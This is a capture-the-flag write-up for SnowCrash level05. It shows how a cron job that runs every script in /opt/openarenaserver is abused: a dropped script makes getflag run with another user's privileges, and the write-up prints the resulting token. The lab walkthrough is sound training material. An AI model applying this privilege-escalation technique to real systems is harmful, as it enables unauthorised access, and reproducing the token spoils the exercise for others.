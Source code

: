 # level05

1. Files found in `~/` : none

    - Information received at connection :

    ```bash
    You have new mail.
    ```

2. Mailbox analysis

    ```bash
    level05@SnowCrash:~$ ls -l /var/mail/level05
    -rw-r--r--+ 1 root mail 58 Oct 7 08:14 /var/mail/level05
    ```

    The `level05` mailbox contains a cron entry indicating that `/usr/sbin/openarenaserver` is executed every 2 minutes as user `flag05`.

    ```bash
    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```

    Verification of the `/usr/sbin/openarenaserver` binary :

    ```bash
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh
    for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
    done
    ```

    It executes **all** scripts present in `/opt/openarenaserver/` then deletes each script after execution.

3. Exploitation

    Create `/opt/openarenaserver/script.sh` containing `getflag > /tmp/token` and make the file executable :

    ```bash
    echo 'getflag > /tmp/token' > /opt/openarenaserver/script.sh
    chmod +x /opt/openarenaserver/script.sh
    ```

    During the next service execution, `getflag` was launched as `flag05` and wrote the token to `/tmp/token`.

    ```bash
    level05@SnowCrash:/$ cat /tmp/token
    Check flag.Here is your token : viuaaale9huek52boumoomioc
    ```

4. Token discovered

    The token is : `viuaaale9huek52boumoomioc`
